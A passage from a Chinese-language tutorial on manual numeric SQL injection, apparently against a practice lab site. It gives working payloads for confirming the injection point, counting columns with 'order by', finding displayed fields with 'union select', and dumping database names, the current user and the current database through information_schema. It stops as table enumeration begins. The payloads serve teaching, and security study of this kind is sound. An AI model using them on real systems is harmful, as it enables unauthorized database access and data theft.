 然后输入`id=-1`这时回显内容少了,但是没有报错,因为id为-1时查不到内容
再输入`id=1-2`的好的回显和`id=-1`相同,1-2被运算了,所以是数字型注入




# 手工注入 例子一数字注入 回显 单引号
本例子无法给出测试站点,但是可以直接通过我的描述理解.
## 确定注入点
首页未找到注入点,进入网站公告,url中`id=1`判断为数字型注入
直接添加 单引号 发现页面返回不一样
测试 `id=1 and 1=1 --+` 和`id=1 and 1=2`返回页面不同,注入点存在,判断可以sql注入

## 判断原本sql语句查询的字段数目

```
id=1 order by 1 --+ //意思是按照第三列(字段)排序,返回正常
id=1 order by 2 --+ //正常
id=1 order by 3 --+ //正常
id=1 order by 4 --+ //正常
id=1 order by 5 --+ //返回不同,判断没有第五列(字段)
```
由此判断原本sql语句查询的字段数目为4位

## 判断页面中显示的数据的位置

```
id=-1 union select 1,2,3,4//id=-1让原本语句查不到数据,然后使用联合查询查询1,2,3,4
```
查看页面返回,返回的只有我们自己构造的联合查询数据,返回的数据是2,3.
那么我们得出结论,查询出的四个位置就是2,3两个位置被显示在了网页上.

## 爆出数据库
### 方法一
利用mysql数据库中的`information_schema`数据库.这个数据库中包含了我们创建的所有数据名,表名,字段名等等很多信息详见:https://e1sewhere.github.io/2018/11/30/%E6%95%B0%E6%8D%AE%E5%BA%93%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/
使用
```
id=-1 union select 1,2,group_concat(schema_name),4 from information_schema.schemata
//查询字段schema_name的全部数据,这个字段包含全部数据名.剩余的三位用数字填充,以满足union使用条件
//函数group_concat()将字段schema_name用逗号连接,变成一条数据.
```
`group_concat()`用法详见:https://e1sewhere.github.io/2018/11/30/%E6%95%B0%E6%8D%AE%E5%BA%93%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/ 搜索`group_concat()`

爆出数据库:`mozhe_Discuz_StormGroup`

### 方法二
我们可以直接查询当前数据库
查询当前用户名和当前数据库
```
id=-1 union select 1,user(),database(),4
```
查询出当前用户`root@localhost`,当前数据库`mozhe_Discuz_StormGroup`
## 爆出数据表
同样使用`information_schema`,由于已经查询出数据库就可以将数据库名作为限定条件,查询出这个数据库所包含的所有表名.
